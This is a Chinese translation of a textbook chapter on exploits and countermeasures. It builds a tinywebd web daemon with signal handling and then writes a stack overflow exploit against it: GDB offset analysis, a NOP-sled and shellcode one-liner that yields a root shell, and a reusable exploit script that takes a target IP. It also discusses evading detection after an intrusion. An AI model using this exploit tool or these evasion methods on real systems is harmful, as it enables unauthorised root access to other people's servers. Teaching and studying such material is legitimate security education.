

# 第 0x600 章。对策

金色毒箭蛙分泌出极其有毒的毒液——一只青蛙就能分泌出足以杀死 10 名成年人的毒液。这些青蛙之所以拥有如此惊人的防御能力，唯一的原因是某种蛇类一直捕食它们并产生抗性。作为回应，青蛙不断进化出更强有力的毒液作为防御。这种协同进化的一个结果是青蛙对所有其他捕食者都安全。这种类型的协同进化也发生在黑客之间。他们的攻击技术已经存在多年，因此防御对策的发展是自然而然的事情。作为回应，黑客找到了绕过和颠覆这些防御的方法，然后又创造了新的防御技术。

这种创新循环实际上是非常有益的。尽管病毒和蠕虫会给企业带来相当大的麻烦和昂贵的中断，但它们迫使人们做出反应，从而解决问题。蠕虫通过利用有缺陷软件中现有的漏洞进行复制。通常这些缺陷多年都未被发现，但相对温和的蠕虫如 CodeRed 或 Sasser 迫使这些问题得到修复。就像水痘一样，最好是早期就出现轻微的爆发，而不是多年后造成真正的损害。如果不是互联网蠕虫将这些安全漏洞公之于众，它们可能仍然未被修补，使我们容易受到那些除了复制之外还有更恶意目标的人的攻击。这样，蠕虫和病毒实际上可以在长期内加强安全性。然而，还有更多积极主动的方式来加强安全性。防御对策存在，试图消除攻击的影响，或者防止攻击发生。对策是一个相当抽象的概念；这可能是一个安全产品、一系列政策、一个程序，或者只是一个警觉的系统管理员。这些防御对策可以分为两组：那些试图检测攻击的，和那些试图保护漏洞的。

# 检测对策

第一组对策试图检测入侵并做出某种响应。检测过程可能包括管理员阅读日志，或者程序嗅探网络。响应可能包括自动终止连接或进程，或者只是管理员仔细检查机器控制台上的所有内容。

作为系统管理员，你所知道的漏洞并不像你所不知道的那么危险。入侵检测得越早，处理得越早，就越有可能被控制。几个月都没有被发现入侵的情况可能会引起担忧。

检测入侵的方法是预测攻击者将要做什么。如果你知道了，那么你就知道该寻找什么。检测对策可以在日志文件、网络数据包或程序内存中寻找这些攻击模式。一旦检测到入侵，黑客就可以从系统中清除，任何文件系统损坏都可以通过恢复备份来撤销，并且可以识别并修补被利用的漏洞。在具有备份和恢复功能的电子世界中，检测对策非常强大。

对于攻击者来说，这意味着检测可以抵消他所做的一切。由于检测可能不会总是立即发生，有一些“打砸抢”场景并不重要；然而，即使在这种情况下，最好不要留下痕迹。隐蔽性是黑客最宝贵的资产之一。利用一个有漏洞的程序来获取 root shell 意味着你可以在该系统上做任何你想做的事情，但避免检测还意味着没有人知道你在那里。这种“上帝模式”和隐形性的结合使得黑客变得危险。从隐蔽的位置，可以从网络中悄悄地嗅探密码和数据，可以对程序进行后门攻击，并可以对其他主机发起进一步的攻击。为了保持隐蔽，你需要简单地预测可能会使用的检测方法。如果你知道他们在寻找什么，你可以避免某些利用模式或模仿有效的模式。隐藏和检测之间的协同进化周期是由思考对方没有考虑过的事情推动的。

# 系统守护进程

为了进行关于利用对策和绕过方法的现实讨论，我们首先需要一个现实的利用目标。一个远程目标将是一个接受传入连接的服务器程序。在 Unix 中，这些程序通常是系统守护进程。守护进程是一种在后台运行的程序，并以某种方式从控制终端分离。术语 *daemon* 首次由 20 世纪 60 年代的麻省理工学院黑客提出。它指的是一位名叫詹姆斯·麦克斯韦的物理学家在 1867 年的一个思想实验中提到的分子排序恶魔。在这个思想实验中，麦克斯韦的恶魔是一个具有超自然能力，能够轻松完成困难任务的生物，似乎违反了热力学第二定律。同样，在 Linux 中，系统守护进程不知疲倦地执行提供 SSH 服务和记录系统日志等任务。守护程序通常以 *d* 结尾，以表示它们是守护进程，例如 *sshd* 或 *syslogd*。

通过添加一些内容，《A Tinyweb Server》 中的 tinyweb.c 代码可以被改造成一个更真实的系统守护进程。这个新的代码使用了对 `daemon()` 函数的调用，这将启动一个新的后台进程。这个函数在 Linux 中被许多系统守护进程使用，其 man 页面如下所示。

```
DAEMON(3)                  Linux Programmer's Manual                 DAEMON(3)

NAME

       daemon - run in the background

SYNOPSIS
       #include <unistd.h>

       int daemon(int nochdir, int noclose);

DESCRIPTION
       The daemon() function is for programs wishing to detach themselves from
       the controlling terminal and run in the background as system daemons.

       Unless the argument nochdir is non-zero, daemon() changes the current
       working directory to the root ("/").

       Unless the argument noclose is non-zero, daemon() will redirect stan
       dard input, standard output and standard error to /dev/null.

RETURN VALUE
       (This function forks, and if the   fork()  succeeds,  the  parent  does
       _exit(0),  so that further errors are seen by the child only.)  On suc
       cess zero will be returned.  If an error occurs,  daemon()  returns  -1
       and  sets  the global variable errno to any of the errors specified for
       the library functions fork(2) and setsid(2).
```

系统守护进程在控制终端之外运行，因此新的 tinyweb 守护进程代码会写入日志文件。没有控制终端，系统守护进程通常通过信号来控制。新的 tinyweb 守护进程程序需要捕获终止信号，以便在它被杀死时干净地退出。

## 信号速成课程

信号为 Unix 系统中进程间通信提供了一种方法。当一个进程收到一个信号时，其执行流程会被操作系统中断以调用信号处理程序。信号通过一个数字来识别，每个信号都有一个默认的信号处理程序。例如，当在程序的控制终端中输入 CTRL-C 时，会发送一个中断信号，它有一个默认的信号处理程序，用于退出程序。这允许程序在陷入无限循环时也能被中断。

使用 `signal()` 函数可以注册自定义信号处理程序。在下面的示例代码中，为某些信号注册了几个信号处理程序，而主代码包含一个无限循环。

### signal_example.c

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
/* Some labeled signal defines from signal.h
 * #define SIGHUP        1  Hangup
 * #define SIGINT        2  Interrupt  (Ctrl-C)
 * #define SIGQUIT       3  Quit (Ctrl-\)
 * #define SIGILL        4  Illegal instruction
 * #define SIGTRAP       5  Trace/breakpoint trap
 * #define SIGABRT       6  Process aborted
 * #define SIGBUS        7  Bus error
 * #define SIGFPE        8  Floating point error
 * #define SIGKILL       9  Kill
 * #define SIGUSR1      10  User defined signal 1
 * #define SIGSEGV      11  Segmentation fault
 * #define SIGUSR2      12  User defined signal 2
 * #define SIGPIPE      13  Write to pipe with no one reading
 * #define SIGALRM      14  Countdown alarm set by alarm()
 * #define SIGTERM      15  Termination (sent by kill command)
 * #define SIGCHLD      17  Child process signal
 * #define SIGCONT      18  Continue if stopped
 * #define SIGSTOP      19  Stop (pause execution)
 * #define SIGTSTP      20  Terminal stop [suspend] (Ctrl-Z)
 * #define SIGTTIN      21  Background process trying to read stdin
 * #define SIGTTOU      22  Background process trying to read stdout
 */

/* A signal handler */
void signal_handler(int signal) {
   printf("Caught signal %d\t", signal);
   if (signal == SIGTSTP)
      printf("SIGTSTP (Ctrl-Z)");
   else if (signal == SIGQUIT)
      printf("SIGQUIT (Ctrl-\\)");
   else if (signal == SIGUSR1)
      printf("SIGUSR1");
   else if (signal == SIGUSR2)
      printf("SIGUSR2");
   printf("\n");
}

void sigint_handler(int x) {
   printf("Caught a Ctrl-C (SIGINT) in a separate handler\nExiting.\n");
   exit(0);
}

int main() {
   /* Registering signal handlers */
   signal(SIGQUIT, signal_handler); // Set signal_handler() as the
   signal(SIGTSTP, signal_handler); // signal handler for these
   signal(SIGUSR1, signal_handler); // signals.
   signal(SIGUSR2, signal_handler);

   signal(SIGINT, sigint_handler); // Set sigint_handler() for SIGINT.

   while(1) {} // Loop forever.
}
```

当这个程序编译并执行时，会注册信号处理程序，程序进入一个无限循环。尽管程序陷入了循环，但传入的信号会中断执行并调用已注册的信号处理程序。在下面的输出中，使用了可以从控制终端触发的信号。`signal_handler()` 函数完成后，将执行权返回到中断的循环中，而 `sigint_handler()` 函数则退出程序。

```
reader@hacking:~/booksrc $ gcc -o signal_example signal_example.c
reader@hacking:~/booksrc $ ./signal_example
Caught signal 20        SIGTSTP (Ctrl-Z)
Caught signal 3 SIGQUIT (Ctrl-\)
Caught a Ctrl-C (SIGINT) in a separate handler
Exiting.
reader@hacking:~/booksrc $
```

可以使用 `kill` 命令向一个进程发送特定的信号。默认情况下，`kill` 命令向进程发送终止信号（`SIGTERM`）。使用 `-l` 命令行选项，`kill` 会列出所有可能的信号。在下面的输出中，`SIGUSR1` 和 `SIGUSR2` 信号被发送到另一个终端中正在执行的 signal_example 程序。

```
reader@hacking:~/booksrc $ kill -l
 1) SIGHUP       2) SIGINT       3) SIGQUIT      4) SIGILL
 5) SIGTRAP      6) SIGABRT      7) SIGBUS       8) SIGFPE
 9) SIG KILL     10) SIGUSR1     11) SIGSEGV     12) SIGUSR2
13) SIGPIPE     14) SIGALRM     15) SIGTERM     16) SIGSTKFLT
17) SIGCHLD     18) SIGCONT     19) SIGSTOP     20) SIGTSTP
21) SIGTTIN     22) SIGTTOU     23) SIGURG      24) SIGXCPU
25) SIGXFSZ     26) SIGVTALRM   27) SIGPROF     28) SIGWINCH
29) SIGIO       30) SIGPWR      31) SIGSYS      34) SIGRTMIN
35) SIGRTMIN+1  36) SIGRTMIN+2  37) SIGRTMIN+3  38) SIGRTMIN+4
39) SIGRTMIN+5  40) SIGRTMIN+6  41) SIGRTMIN+7  42) SIGRTMIN+8
43) SIGRTMIN+9  44) SIGRTMIN+10 45) SIGRTMIN+11 46) SIGRTMIN+12
47) SIGRTMIN+13 48) SIGRTMIN+14 49) SIGRTMIN+15 50) SIGRTMAX-14
51) SIGRTMAX-13 52) SIGRTMAX-12 53) SIGRTMAX-11 54) SIGRTMAX-10
55) SIGRTMAX-9  56) SIGRTMAX-8  57) SIGRTMAX-7  58) SIGRTMAX-6
59) SIGRTMAX-5  60) SIGRTMAX-4  61) SIGRTMAX-3  62) SIGRTMAX-2
63) SIGRTMAX-1  64) SIGRTMAX
reader@hacking:~/booksrc $ ps a | grep signal_example
24491 pts/3    R+     0:17 ./signal_example
24512 pts/1    S+     0:00  grep signal_example
reader@hacking:~/booksrc $  kill -10 24491
reader@hacking:~/booksrc $  kill -12 24491
reader@hacking:~/booksrc $  kill -9 24491
reader@hacking:~/booksrc $
```

最后，使用 `kill -9` 发送 `SIGKILL` 信号。这个信号的处理器不能被更改，因此 `kill -9` 总是可以用来杀死进程。在另一个终端中，运行的 signal_example 显示了捕获到的信号，并且进程被杀死。

```
reader@hacking:~/booksrc $ ./signal_example
Caught signal 10        SIGUSR1
Caught signal 12        SIGUSR2
Killed
reader@hacking:~/booksrc $
```

信号本身相当简单；然而，进程间通信可以迅速变成一个复杂的依赖网络。幸运的是，在新的 tinyweb 守护进程中，信号仅用于干净的终止，因此实现简单。

## Tinyweb 守护进程

这个 tinyweb 程序的新版本是一个在后台运行的系统守护进程，没有控制终端。它将输出写入带有时间戳的日志文件，并监听终止信号（`SIGTERM`），以便在它被杀死时干净地关闭。

这些新增内容相当微小，但它们提供了一个更加现实的攻击目标。下面的代码列表中，新代码部分以粗体显示。

### tinywebd.c

```
#include <sys/stat.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
`#include <time.h> #include <signal.h>`
#include "hacking.h"
#include "hacking-network.h"

#define PORT 80   // The port users will be connecting to
#define WEBROOT "./webroot" // The webserver's root directory
`#define LOGFILE "/var/log/tinywebd.log" // Log filename  int logfd, sockfd;  // Global log and socket file descriptors void handle_connection(int, struct sockaddr_in *, int);`
int get_file_size(int); // Returns the file size of open file descriptor
`void timestamp(int); // Writes a timestamp to the open file descriptor  // This function is called when the process is killed. void handle_shutdown(int signal) {    timestamp(logfd);    write(logfd, "Shutting down.\n", 16);    close(logfd);    close(sockfd);    exit(0); }`

int main(void) {
   int new_sockfd, yes=1;
   struct sockaddr_in host_addr, client_addr;   // My address information
   socklen_t sin_size;

   `logfd = open(LOGFILE, O_WRONLY|O_CREAT|O_APPEND, S_IRUSR|S_IWUSR);    if(logfd == -1)       fatal("opening log file");`

   if ((sockfd = socket(PF_INET, SOCK_STREAM, 0)) == -1)
      fatal("in socket");

   if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int)) == -1)
      fatal("setting socket option SO_REUSEADDR");

   `printf("Starting tiny web daemon.\n");    if(daemon(1, 0) == -1) // Fork to a background daemon process.       fatal("forking to daemon process");     signal(SIGTERM, handle_shutdown);    // Call handle_shutdown when killed.    signal(SIGINT, handle_shutdown);    // Call handle_shutdown when interrupted.     timestamp(logfd);    write(logfd, "Starting up.\n", 15);`
   host_addr.sin_family = AF_INET;      // Host byte order
   host_addr.sin_port = htons(PORT);    // Short, network byte order
   host_addr.sin_addr.s_addr = INADDR_ANY; // Automatically fill with my IP.
   memset(&(host_addr.sin_zero), '\0', 8); // Zero the rest of the struct.

   if (bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr)) == -1)
      fatal("binding to socket");

   if (listen(sockfd, 20) == -1)
      fatal("listening on socket");

   while(1) { // Accept loop.
      sin_size = sizeof(struct sockaddr_in);
      new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
      if(new_sockfd == -1)
         fatal("accepting connection");

      `handle_connection(new_sockfd, &client_addr, logfd);`
   }
   return 0;
}

`/* This function handles the connection on the passed socket from the  *.passed client address and logs to the passed FD. The connection is  *.processed as a web request and this function replies over the connected  *.socket. Finally, the passed socket is closed at the end of the function.  */ void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr, int logfd) {`
   unsigned char *ptr, request[500], resource[500], `log_buffer[500]`;
   int fd, length;

   length = recv_line(sockfd, request);

   `sprintf(log_buffer, "From %s:%d \"%s\"\t", inet_ntoa(client_addr_ptr->sin_addr), ntohs(client_addr_ptr->sin_port), request);`

   ptr = strstr(request, " HTTP/"); // Search for valid-looking request.
   if(ptr == NULL) { // Then this isn't valid HTTP
      strcat(log_buffer, " NOT HTTP!\n");
   } else {
      *ptr = 0; // Terminate the buffer at the end of the URL.
      ptr = NULL; // Set ptr to NULL (used to flag for an invalid request).
      if(strncmp(request, "GET ", 4) == 0)  // Get request
         ptr = request+4; // ptr is the URL.
      if(strncmp(request, "HEAD ", 5) == 0) // Head request
         ptr = request+5; // ptr is the URL.
      if(ptr == NULL) { // Then this is not a recognized request
         strcat(log_buffer, " UNKNOWN REQUEST!\n");
      } else { // Valid request, with ptr pointing to the resource name
         if (ptr[strlen(ptr) - 1] == '/')  // For resources ending with '/',
             strcat(ptr, "index.html");    // add 'index.html' to the end.
         strcpy(resource, WEBROOT);     // Begin resource with web root path
         strcat(resource, ptr);         //  and join it with resource path.
         fd = open(resource, O_RDONLY, 0); // Try to open the file.
         if(fd == -1) { // If file is not found
            `strcat(log_buffer, " 404 Not Found\n");`
            send_string(sockfd, "HTTP/1.0 404 NOT FOUND\r\n");
            send_string(sockfd, "Server: Tiny webserver\r\n\r\n");
            send_string(sockfd, "<html><head><title>404 Not Found</title></head>");
            send_string(sockfd, "<body><h1>URL not found</h1></body></html>\r\n");
         } else {      // Otherwise, serve up the file.
            `strcat(log_buffer, " 200 OK\n");`
            send_string(sockfd, "HTTP/1.0 200 OK\r\n");
            send_string(sockfd, "Server: Tiny webserver\r\n\r\n");
            if(ptr == request + 4) { // Then this is a GET request
               if( (length = get_file_size(fd)) == -1)
                  fatal("getting resource file size");
               if( (ptr = (unsigned char *) malloc(length)) == NULL)
                  fatal("allocating memory for reading resource");
               read(fd, ptr, length);  // Read the file into memory.
               send(sockfd, ptr, length, 0);  // Send it to socket.
               free(ptr); // Free file memory.
         }
         close(fd); // Close the file.
         } // End if block for file found/not found.
      } // End if block for valid request.
   } // End if block for valid HTTP.
   `timestamp(logfd);    length = strlen(log_buffer);    write(logfd, log_buffer, length); // Write to the log.`

   shutdown(sockfd, SHUT_RDWR); // Close the socket gracefully.
}

/* This function accepts an open file descriptor and returns
 * the size of the associated file. Returns -1 on failure.
 */
int get_file_size(int fd) {
   struct stat stat_struct;

   if(fstat(fd, &stat_struct) == -1)
      return -1;
   return (int) stat_struct.st_size;
}
`/* This function writes a timestamp string to the open file descriptor  *.passed to it.  */ void timestamp(fd) {    time_t now;    struct tm *time_struct;    int length;    char time_buffer[40];     time(&now);  // Get number of seconds since epoch.    time_struct = localtime((const time_t *)&now); // Convert to tm struct.    length = strftime(time_buffer, 40, "%m/%d/%Y %H:%M:%S> ", time_struct);    write(fd, time_buffer, length); // Write timestamp string to log. }`
```

此守护进程程序在后台进行分支，写入带有时间戳的日志文件，并在被杀死时干净地退出。日志文件描述符和连接接收套接字被声明为全局变量，以便可以通过`handle_shutdown()`函数干净地关闭。此函数被设置为终止和中断信号的回调处理程序，这使得程序在用`kill`命令杀死时可以优雅地退出。

下面的输出显示了程序编译、执行和杀死的过程。请注意，日志文件包含时间戳，以及当程序捕获终止信号并调用`handle_shutdown()`以优雅退出时的关闭消息。

```
reader@hacking:~/booksrc $ gcc -o tinywebd tinywebd.c
reader@hacking:~/booksrc $ sudo chown root ./tinywebd
reader@hacking:~/booksrc $ sudo chmod u+s ./tinywebd
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.

reader@hacking:~/booksrc $ ./webserver_id 127.0.0.1
The web server for 127.0.0.1 is Tiny webserver
reader@hacking:~/booksrc $ ps ax | grep tinywebd
25058 ?        Ss     0:00 ./tinywebd
25075 pts/3    R+     0:00 grep tinywebd
reader@hacking:~/booksrc $ kill 25058
reader@hacking:~/booksrc $ ps ax | grep tinywebd
25121 pts/3    R+     0:00 grep tinywebd
reader@hacking:~/booksrc $ cat /var/log/tinywebd.log
cat: /var/log/tinywebd.log: Permission denied
reader@hacking:~/booksrc $ sudo cat /var/log/tinywebd.log
07/22/2007 17:55:45> Starting up.
07/22/2007 17:57:00> From 127.0.0.1:38127 "HEAD / HTTP/1.0"     200 OK
07/22/2007 17:57:21> Shutting down.
reader@hacking:~/booksrc $
```

这个 tinywebd 程序就像原始的 tinyweb 程序一样提供 HTTP 内容，但它作为一个系统守护进程运行，从控制终端分离出来，并写入日志文件。这两个程序都容易受到相同的溢出漏洞攻击；然而，利用只是开始。使用新的 tinyweb 守护进程作为更现实的漏洞目标，你将学习如何在入侵后避免检测。

# 行业工具

在设置了一个现实的目标后，让我们回到攻击者的那一侧。对于这种攻击，漏洞脚本是行业中的必备工具。就像专业人士手中的锁匠工具一样，漏洞为黑客打开了多扇门。通过仔细操作内部机制，可以完全绕过安全措施。

在前面的章节中，我们用 C 语言编写了漏洞利用代码，并从命令行手动利用漏洞。漏洞程序和漏洞工具之间的细微差别在于最终化和可重新配置性。漏洞程序更像是枪支而不是工具。就像枪支一样，漏洞程序具有单一的功能，用户界面简单到只需拉动扳机。枪支和漏洞程序都是最终产品，可以被不熟练的人使用，并产生危险的结果。相比之下，漏洞工具通常不是最终产品，也不打算供他人使用。有了编程的理解，黑客开始编写自己的脚本和工具来辅助漏洞利用是顺理成章的。这些个性化的工具自动化繁琐的任务，并促进实验。像传统工具一样，它们可以用于许多目的，扩展用户的能力。

## tinywebd 漏洞利用工具

对于 tinyweb 守护进程，我们希望有一个漏洞利用工具，允许我们实验漏洞。就像我们之前漏洞的开发一样，首先使用 GDB 来确定漏洞的细节，例如偏移量。返回地址的偏移量将与原始 tinyweb.c 程序中的相同，但守护进程程序带来了额外的挑战。守护进程调用会派生子进程，在子进程中运行程序的其余部分，而父进程退出。在下面的输出中，在 `daemon()` 调用后设置了断点，但调试器从未命中它。

```
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q ./a.out

warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) list 47
42
43         if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int)) == -1)
44            fatal("setting socket option SO_REUSEADDR");
45
46         printf("Starting tiny web daemon.\n");
47         if(daemon(1, 1) == -1) // Fork to a background daemon process.
48            fatal("forking to daemon process");
49
50         signal(SIGTERM, handle_shutdown);   // Call handle_shutdown when killed.
51         signal(SIGINT, handle_shutdown);   // Call handle_shutdown when interrupted.
(gdb) break 50
Breakpoint 1 at 0x8048e84: file tinywebd.c, line 50.
(gdb) run
Starting program: /home/reader/booksrc/a.out
Starting tiny web daemon.

Program exited normally.
(gdb)
```

当程序运行时，它只是退出。为了调试这个程序，需要告诉 GDB 跟踪子进程，而不是跟踪父进程。这是通过将 `follow-fork-mode` 设置为 `child` 来实现的。在此更改之后，调试器将跟踪执行到子进程，在那里可以命中断点。

```
(gdb) set follow-fork-mode child
(gdb) help set follow-fork-mode
Set debugger response to a program call of fork or vfork.
A fork or vfork creates a new process.  follow-fork-mode can be:
  parent  - the original process is debugged after a fork
  child   - the new process is debugged after a fork
The unfollowed process will continue to run.
By default, the debugger will follow the parent process.
(gdb) run
Starting program: /home/reader/booksrc/a.out
Starting tiny web daemon.
[Switching to process 1051]

Breakpoint 1, main () at tinywebd.c:50
50         signal(SIGTERM, handle_shutdown);   // Call handle_shutdown when killed.
(gdb) quit
The program is running.  Exit anyway? (y or n) y
reader@hacking:~/booksrc $ ps aux | grep a.out
root       911  0.0  0.0   1636   416 ?        Ss   06:04  0:00 /home/reader/booksrc/a.out
reader    1207 0.0 0.0     2880   748 pts/2    R+   06:13  0:00 grep a.out
reader@hacking:~/booksrc $ sudo kill 911
reader@hacking:~/booksrc $
```

了解如何调试子进程是很好的，但由于我们需要特定的堆栈值，连接到正在运行的过程会更干净、更容易。在杀死任何散乱的 a.out 进程后，重新启动 tinyweb 守护进程，然后使用 GDB 连接到它。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon..
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root     25830  0.0  0.0   1636   356 ?        Ss   20:10   0:00 ./tinywebd
reader   25837  0.0  0.0   2880   748 pts/1    R+   20:10   0:00 grep tinywebd
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q—pid=25830 --symbols=./a.out

warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
Attaching to process 25830
/cow/home/reader/booksrc/tinywebd: No such file or directory.
A program is being debugged already.  Kill it? (y or n) n
Program not killed.
(gdb) bt
#0  0xb7fe77f2 in ?? ()
#1  0xb7f691e1 in ?? ()
#2  0x08048f87 in main () at tinywebd.c:68
(gdb) list 68
63         if (listen(sockfd, 20) == -1)
64            fatal("listening on socket");
65
66         while(1) {   // Accept loop
67            sin_size = sizeof(struct sockaddr_in);
68            new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
69            if(new_sockfd == -1)
70               fatal("accepting connection");
71
72            handle_connection(new_sockfd, &client_addr, logfd);
(gdb) list handle_connection
77      /* This function handles the connection on the passed socket from the
78       * passed client address and logs to the passed FD. The connection is
79       * processed as a web request, and this function replies over the connected
80       * socket. Finally, the passed socket is closed at the end of the function.
81       */
82      void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr, int logfd)
 {
83         unsigned char *ptr, request[500], resource[500], log_buffer[500];
84         int fd, length;
85
86         length = recv_line(sockfd, request);
(gdb) break 86
Breakpoint 1 at 0x8048fc3: file tinywebd.c, line 86.
(gdb) cont
Continuing.
```

当 tinyweb 守护进程等待连接时，执行会暂停。再次使用浏览器连接到 web 服务器，以推进代码执行到断点。

```
Breakpoint 1, handle_connection (sockfd=5, client_addr_ptr=0xbffff810) at tinywebd.c:86
86         length = recv_line(sockfd, request);
(gdb) bt
#0  handle_connection (sockfd=5, client_addr_ptr=0xbffff810, logfd=3) at tinywebd.c:86
#1  0x08048fb7 in main () at tinywebd.c:72
(gdb) x/x request
0xbffff5c0:     0x080484ec
(gdb) x/16x request + 500
0xbffff7b4:     0xb7fd5ff4      0xb8000ce0      0x00000000      0xbffff848
0xbffff7c4:     0xb7ff9300      0xb7fd5ff4      0xbffff7e0      0xb7f691c0
0xbffff7d4:     0xb7fd5ff4      0xbffff848      0x08048fb7      0x00000005
0xbffff7e4:     0xbffff810      0x00000003      0xbffff838      0x00000004
(gdb) x/x 0xbffff7d4 + 8
0xbffff7dc:     0x08048fb7
(gdb) p /x 0xbffff7dc - 0xbffff5c0
$1 = 0x21c
(gdb) p 0xbffff7dc - 0xbffff5c0
$2 = 540
(gdb) p /x 0xbffff5c0 + 100
$3 = 0xbffff624
(gdb) quit
The program is running. Quit anyway (and detach it)? (y or n) y
Detaching from program: , process 25830
reader@hacking:~/booksrc $
```

调试器显示请求缓冲区从 `0xbffff5c0` 开始，存储的返回地址在 `0xbffff7dc`，这意味着偏移量是 540 字节。在 500 字节请求缓冲区的中间附近是放置 shellcode 的最安全位置。在下面的输出中，创建了一个漏洞利用缓冲区，将 shellcode 放在 NOP 滑梯和重复 32 次的返回地址之间。重复的 128 字节返回地址使 shellcode 避免了可能被覆盖的不安全堆栈内存。在漏洞利用缓冲区的开头也有不安全的字节，这些字节将在空终止符期间被覆盖。为了使 shellcode 避免这个范围，在其前面放置了一个 100 字节的 NOP 滑梯。这为执行指针留下了一个安全着陆区，shellcode 位于 `0xbffff624`。下面的输出使用回环 shellcode 利用漏洞。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ wc -c loopback_shell
83 loopback_shell

reader@hacking:~/booksrc $ echo $((540+4 - (32*4) - 83))
333
reader@hacking:~/booksrc $ nc -l -p 31337 &
[1] 9835
reader@hacking:~/booksrc $ jobs
[1]+ Running                  nc -l -p 31337 &
reader@hacking:~/booksrc $ (perl -e 'print "\x90"x333'; cat loopback_shell; perl -e
 'print "\
x24\xf6\xff\xbf"x32 . "\r\n"') | nc -w 1 -v 127.0.0.1 80
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ fg
nc -l -p 31337
whoami
root
```

由于返回地址的偏移量是 540 字节，因此需要 544 字节来覆盖地址。带有 83 字节循环回 shellcode 和重复 32 次的覆盖返回地址，简单的算术表明 NOP 雪橇需要 333 字节来正确地对齐攻击缓冲区中的所有内容。netcat 以监听模式运行，并在末尾附加一个&符号，将进程发送到后台。这监听来自 shellcode 的连接回传，可以用`fg`（前台）命令稍后恢复。在 LiveCD 上，命令提示符中的@符号如果有后台作业，会改变颜色，也可以用`jobs`命令列出。当攻击缓冲区被管道传输到 netcat 时，使用`-w`选项告诉它在 1 秒后超时。之后，接收了连接回传 shell 的已后台化的 netcat 进程可以被恢复。

所有这些都很好，但如果使用了不同大小的 shellcode，必须重新计算 NOP 雪橇的大小。所有这些重复的步骤都可以放入一个单独的 shell 脚本中。

BASH shell 允许简单的控制结构。这个脚本开头的`if`语句只是为了错误检查和显示使用信息。shell 变量用于偏移量和覆盖返回地址，因此可以很容易地更改以针对不同的目标。用于攻击的 shellcode 作为命令行参数传递，这使得它成为一个尝试各种 shellcode 的有用工具。

### xtool_tinywebd.sh

```
#!/bin/sh
# A tool for exploiting tinywebd

if [ -z "$2" ]; then # If argument 2 is blank
   echo "Usage: $0 <shellcode file> <target IP>"
   exit
fi
OFFSET=540
RETADDR="\x24\xf6\xff\xbf" # At +100 bytes from buffer @ 0xbffff5c0
echo "target IP: $2"
SIZE=`wc -c $1 | cut -f1 -d ' '`
echo "shellcode: $1 ($SIZE bytes)"
ALIGNED_SLED_SIZE=$(($OFFSET+4 - (32*4) - $SIZE))

echo "[NOP ($ALIGNED_SLED_SIZE bytes)] [shellcode ($SIZE bytes)] [ret addr
($((4*32)) bytes)]"
( perl -e "print \"\x90\"x$ALIGNED_SLED_SIZE";
 cat $1;
 perl -e "print \"$RETADDR\"x32 . \"\r\n\"";) | nc -w 1 -v $2 80
```

注意，这个脚本额外重复了返回地址三十三次，但它是用 128 字节（32 `x` 4）来计算雪橇大小的。这使得返回地址的副本超出了偏移量指定的位置。有时不同的编译器选项会稍微移动返回地址，这使得攻击更加可靠。下面的输出显示了该工具再次被用来攻击 tinyweb 守护进程，但这次使用了端口绑定 shellcode。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ ./xtool_tinywebd.sh portbinding_shellcode 127.0.0.1
target IP: 127.0.0.1
shellcode: portbinding_shellcode (92 bytes)
[NOP (324 bytes)] [shellcode (92 bytes)] [ret addr (128 bytes)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ nc -vv 127.0.0.1 31337
localhost [127.0.0.1] 31337 (?) open
whoami
root
```

现在攻击方已经装备了攻击脚本，考虑一下使用它时会发生什么。如果你是运行 tinyweb 守护进程的服务器管理员，你首先会看到什么迹象表明你被黑了？

# 日志文件

两个最明显的入侵迹象之一是日志文件。tinyweb 守护进程保留的日志文件是当解决问题时首先要查看的地方之一。尽管攻击者的攻击是成功的，但日志文件仍然保留了一个痛苦明显的记录，表明出了问题。

## 日志文件

### tinywebd 日志文件

```
reader@hacking:~/booksrc $ sudo cat /var/log/tinywebd.log
07/25/2007 14:55:45> Starting up.
07/25/2007 14:57:00> From 127.0.0.1:38127 "HEAD / HTTP/1.0"      200 OK
07/25/2007 17:49:14> From 127.0.0.1:50201 "GET / HTTP/1.1"       200 OK
07/25/2007 17:49:14> From 127.0.0.1:50202 "GET /image.jpg HTTP/1.1"      200 OK
07/25/2007 17:49:14> From 127.0.0.1:50203 "GET /favicon.ico HTTP/1.1"    404 Not Found
07/25/2007 17:57:21> Shutting down.
08/01/2007 15:43:08> Starting up.
08/01/2007 15:43:41> From 127.0.0.1:45396 "␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
